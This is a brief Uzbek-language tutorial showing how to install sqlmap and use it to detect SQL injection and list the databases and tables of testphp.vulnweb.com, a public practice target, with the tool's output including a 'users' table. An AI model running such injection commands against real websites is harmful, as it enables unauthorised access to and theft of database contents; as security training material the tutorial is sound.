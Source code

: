 **SQLMAP**   
```
sudo apt update && sudo apt install sqlmap
```   
1. Veb-saytda SQL Injection bor-yo'qligini aniqlash uchun (Barcha ma'lumotlar bazasini chiqarish):   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --batch --dbs
```
available databases [2]:  
**acuart**  
information_schema  


2. Muayyan bazadagi jadvallarni aniqlash:   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```
Database: acuart
(8 tables)
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
